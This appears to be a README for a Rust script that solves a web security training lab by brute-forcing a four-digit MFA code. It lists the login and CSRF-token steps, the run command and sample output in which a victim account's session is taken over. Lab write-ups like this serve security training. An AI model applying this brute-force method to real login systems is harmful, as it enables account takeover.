 # Hack Steps

1. GET /login page and extract the session from cookie header and csrf token from the body
2. POST /login with valid credentials, extracted session and the csrf token
3. Obtain the new session
4. GET /login2 with the new session
5. Extract csrf token from the body of /login2
6. POST the mfa-code with the new session and the new extracted csrf token
7. Repeat the process with all possbile numbers

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Brute forcing the mfa-code of carlos..
[*] Elapsed: 19 minutes || Failed: 1 || (587/10000) 0588 => Incorrect
✅ Correct code: 0589
✅ New session: 2xAatFfbH1ezWx6fvMtM9R0zE62I7MnP
Use this session in your browser to login as carlos

✅ Finished in: 19 minutes

[!] Failed codes count: 1 
[!] Failed codes: ["0316"]
```
